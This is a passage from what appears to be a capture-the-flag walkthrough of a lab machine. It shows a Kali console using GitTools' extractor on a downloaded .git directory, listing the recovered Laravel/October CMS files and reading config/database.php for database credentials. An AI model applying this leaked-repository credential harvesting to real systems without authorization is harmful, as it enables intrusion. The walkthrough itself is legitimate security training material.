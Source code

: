 Then we extract the information from downloaded .git directory.

```console
root@kali:~$ GitTools/Extractor/extractor.sh ./ extracted_git
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 7de9115700c5656c670b34987c6fbffd39d90cf2
[+] Found file: /root/devguru/extracted_git/0-7de9115700c5656c670b34987c6fbffd39d90cf2/.gitignore
[+] Found file: /root/devguru/extracted_git/0-7de9115700c5656c670b34987c6fbffd39d90cf2/.htaccess
[+] Found file: /root/devguru/extracted_git/0-7de9115700c5656c670b34987c6fbffd39d90cf2/README.md
[+] Found file: /root/devguru/extracted_git/0-7de9115700c5656c670b34987c6fbffd39d90cf2/adminer.php
...
```

With the tree command we list the content of the extracted_git directory.

```console
root@kali:~$ cd extracted_git 
root@kali:~/extracted_git$ tree
.
└── 0-7de9115700c5656c670b34987c6fbffd39d90cf2
    ├── adminer.php
    ├── artisan
    ├── bootstrap
    │   ├── app.php
    │   └── autoload.php
    ├── commit-meta.txt
    ├── config
    │   ├── app.php
    │   ├── auth.php
    │   ├── broadcasting.php
    │   ├── cache.php
    │   ├── cms.php
    │   ├── cookie.php
    │   ├── database.php
    │   ├── environment.php
...
```

We can see an interesting file called database.php, It contains the credentials to the **octoberdb** database

```console
root@kali:~/extracted_git$ cat 0-7de9115700c5656c670b34987c6fbffd39d90cf2/config/database.php
...
        'mysql' => [                                                                                                                                                
            'driver'     => 'mysql',                                                                                                                                
            'engine'     => 'InnoDB',                                                                                                                               
            'host'       => 'localhost',                                                                                                                            
            'port'       => 3306,                                                                                                                                   
            'database'   => 'octoberdb',                                                                                                                            
            'username'   => 'october',                                                                                                                              
```